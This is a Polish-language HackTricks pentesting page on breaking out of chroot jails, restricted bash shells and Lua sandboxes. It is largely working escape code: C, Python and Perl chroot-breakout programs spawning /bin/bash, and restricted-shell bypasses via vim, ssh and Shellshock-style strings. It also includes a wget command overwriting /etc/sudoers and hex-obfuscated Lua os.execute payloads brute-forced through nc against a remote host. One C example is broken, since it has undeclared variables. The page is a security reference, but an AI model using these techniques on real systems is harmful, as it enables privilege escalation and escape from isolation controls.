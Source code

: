# Ucieczka z więzień

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## **GTFOBins**

**Szukaj w** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **czy możesz wykonać jakikolwiek binarny plik z właściwością "Shell"**

## Ucieczki Chroot

Z [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mechanizm chroot **nie jest przeznaczony do obrony** przed celowym manipulowaniem przez **uprzywilejowanych** (**root**) **użytkowników**. W większości systemów konteksty chroot nie są poprawnie stosowane, a programy chrooted **z wystarczającymi uprawnieniami mogą wykonać drugi chroot, aby się wydostać**.\
Zwykle oznacza to, że aby uciec, musisz być rootem wewnątrz chroot.

{% hint style="success" %}
**Narzędzie** [**chw00t**](https://github.com/earthquake/chw00t) zostało stworzone, aby wykorzystać następujące scenariusze i uciec z `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Jeśli jesteś **rootem** wewnątrz chroot, **możesz uciec**, tworząc **kolejny chroot**. Dzieje się tak, ponieważ 2 chrooty nie mogą współistnieć (w Linuxie), więc jeśli stworzysz folder, a następnie **utworzysz nowy chroot** w tym nowym folderze będąc **na zewnątrz niego**, będziesz teraz **na zewnątrz nowego chroot** i dlatego będziesz w FS.

Dzieje się tak, ponieważ zwykle chroot NIE przenosi twojego katalogu roboczego do wskazanego, więc możesz stworzyć chroot, ale być na zewnątrz niego.
{% endhint %}

Zwykle nie znajdziesz binarnego pliku `chroot` wewnątrz więzienia chroot, ale **możesz skompilować, przesłać i wykonać** binarny plik:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
To jest podobne do poprzedniego przypadku, ale w tym przypadku **atakujący przechowuje deskryptor pliku do bieżącego katalogu** i następnie **tworzy chroot w nowym folderze**. Ostatecznie, ponieważ ma **dostęp** do tego **FD** **poza** chroot, uzyskuje do niego dostęp i **ucieka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD może być przekazywane przez Unix Domain Sockets, więc:

* Utwórz proces potomny (fork)
* Utwórz UDS, aby rodzic i dziecko mogły się komunikować
* Uruchom chroot w procesie potomnym w innym folderze
* W procesie rodzica utwórz FD folderu, który znajduje się poza nowym chrootem procesu potomnego
* Przekaż temu procesowi potomnemu ten FD za pomocą UDS
* Proces potomny zmienia katalog na ten FD, a ponieważ jest on poza jego chrootem, ucieknie z więzienia
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Montowanie urządzenia root (/) w katalogu wewnątrz chroot
* Chrootowanie do tego katalogu

To jest możliwe w Linuksie
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Zamontuj procfs w katalogu wewnątrz chroot (jeśli jeszcze nie jest)
* Szukaj pid, który ma inną wpis root/cwd, na przykład: /proc/1/root
* Chrootuj do tego wpisu
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Utwórz Fork (proces potomny) i chrootuj do innego folderu głębiej w FS i CD na nim
* Z procesu rodzica przenieś folder, w którym znajduje się proces potomny, do folderu poprzedzającego chroot dzieci
* Ten proces dziecięcy znajdzie się poza chrootem
{% endhint %}

### ptrace

{% hint style="warning" %}
* Dawno temu użytkownicy mogli debugować swoje własne procesy z procesu samego siebie... ale to nie jest już możliwe domyślnie
* Tak czy inaczej, jeśli to możliwe, możesz ptrace do procesu i wykonać shellcode wewnątrz niego ([zobacz ten przykład](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Uzyskaj informacje o więzieniu:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modify PATH

Sprawdź, czy możesz zmodyfikować zmienną środowiskową PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Używanie vim
```bash
:set shell=/bin/sh
:shell
```
### Utwórz skrypt

Sprawdź, czy możesz utworzyć plik wykonywalny z _/bin/bash_ jako zawartość
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Uzyskaj bash z SSH

Jeśli uzyskujesz dostęp przez ssh, możesz użyć tego triku, aby wykonać powłokę bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Deklaracja
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Możesz nadpisać na przykład plik sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Inne sztuczki

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Może być również interesująca strona:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Sztuczki dotyczące ucieczki z python jails na następującej stronie:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Na tej stronie możesz znaleźć globalne funkcje, do których masz dostęp w lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval z wykonaniem polecenia:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Niektóre sztuczki, aby **wywołać funkcje biblioteki bez użycia kropek**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Wymień funkcje biblioteki:
```bash
for k,v in pairs(string) do print(k,v) end
```
Zauważ, że za każdym razem, gdy wykonujesz poprzednią jedną linię w **innym środowisku lua, kolejność funkcji się zmienia**. Dlatego, jeśli musisz wykonać jedną konkretną funkcję, możesz przeprowadzić atak brute force, ładując różne środowiska lua i wywołując pierwszą funkcję biblioteki le:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Uzyskaj interaktywną powłokę lua**: Jeśli jesteś w ograniczonej powłoce lua, możesz uzyskać nową powłokę lua (i miejmy nadzieję, że nieograniczoną) wywołując:
```bash
debug.debug()
```
## Odniesienia

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Prezentacja: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
